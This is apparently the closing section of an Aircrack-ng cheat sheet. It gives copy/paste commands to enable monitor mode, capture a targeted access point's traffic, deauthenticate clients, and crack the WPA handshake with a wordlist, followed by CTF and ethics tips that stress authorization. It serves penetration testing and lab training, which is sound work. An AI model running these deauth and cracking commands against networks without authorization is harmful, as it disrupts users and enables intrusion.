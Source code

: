 ## Fast reference commands (copy/paste)

```bash
# Show interfaces and interfering processes
sudo airmon-ng

# Kill NetworkManager/wpa_supplicant before monitor mode
sudo airmon-ng check kill

# Start monitor mode
sudo airmon-ng start wlan0

# Capture targeted AP to file
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write /tmp/handshake wlan0mon

# Deauth client(s)
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Crack WPA handshake with rockyou
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF /tmp/handshake-01.cap

# Stop monitor mode
sudo airmon-ng stop wlan0mon
```
---

## CTF tips & ethics
- In CTFs/labs: increase deauth counts and threads; be aggressive to get handshakes quickly.  
- In real engagements: get explicit authorization; reduce deauths; be transparent.  
- Use `hcxdumptool` + `hashcat` when dealing with WPA/WPA2 in real scenarios for better success rates with GPU cracking.  
- Keep a small set of reliable adapters for testing; document which drivers support injection and monitor mode.

---

## Resources & further reading
- Aircrack‑ng official docs: https://www.aircrack-ng.org/  
- hcxdumptool / hcxpcapngtool for PMKID capture and hash conversion.  
- Hashcat documentation for cracking WPA/WPA2 hashes on GPU.  

---

*End of Aircrack‑ng cheat sheet.*
